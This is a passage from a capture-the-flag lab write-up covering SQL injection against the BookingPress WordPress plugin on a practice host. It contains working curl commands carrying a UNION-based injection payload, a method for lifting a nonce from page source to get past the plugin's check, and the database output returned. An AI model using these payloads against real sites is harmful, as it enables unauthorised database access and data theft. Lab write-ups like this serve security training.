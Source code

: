 - Looking at the [vulnerability](https://wpscan.com/vulnerability/388cd42d-b61a-42a4-8604-99b812db2357) I notice that I can run the following command: 

    `curl -i 'http://metapress.htb/wp-admin/admin-ajax.php' --data 'action=bookingpress_front_get_category_services&_wpnonce=8cc8b79544&category_id=33&total_service=-7502) UNION ALL SELECT @@version,@@version_comment,@@version_compile_os,1,2,3,4,5,6-- -'`

    But unfortunately, it will return the following error in the output
    ```
    {"variant":"error","title":"Error","msg":"Sorry, Your request can not process due to security reason."}
    ```

    On [`http://metapress.htb/events`](http://metapress.htb/events) I found, in the source code, the `wpnonce` value:
    ```js
    var postData = { action:'bookingpress_before_book_appointment', appointment_data: vm.appointment_step_form_data,_wpnonce:'8c57e8f795' };
    ```

    This will allow me to bypass the security check and perform the SQLI attack

<br><br>

## SQL Injection Exploitation

- `curl -i 'http://metapress.htb/wp-admin/admin-ajax.php' --data 'action=bookingpress_front_get_category_services&_wpnonce=8c57e8f795&category_id=33&total_service=-7502) UNION ALL SELECT @@version,@@version_comment,@@version_compile_os,1,2,3,4,5,6-- -'`
    ```json
    [
        {
            "bookingpress_service_id":"10.5.15-MariaDB-0+deb11u1",
            "bookingpress_category_id":"Debian 11",
            "bookingpress_service_name":"debian-linux-gnu",
            "bookingpress_service_price":"$1.00",
            "bookingpress_service_duration_val":"2",
            "bookingpress_service_duration_unit":"3",
            "bookingpress_service_description":"4",
            "bookingpress_service_position":"5",
            "bookingpress_servicedate_created":"6",
            "service_price_without_currency":1,
            "img_url":"http:\/\/metapress.htb\/wp-content\/plugins\/bookingpress-appointment-booking\/images\/placeholder-img.jpg"
        }
    ]
    ```

    I note that the DBMS is `MariaDB 10.5.15` and the operating system `Debian 11`

- I start the effective enumeration with **SQLMap**

    First of all I have to retrieve an HTTP request to be used by the tool. To do that I just need to run the previous `curl` command with the `--proxy http://127.0.0.1:8080` parameter and listen the request with **BurpSuite** proxy
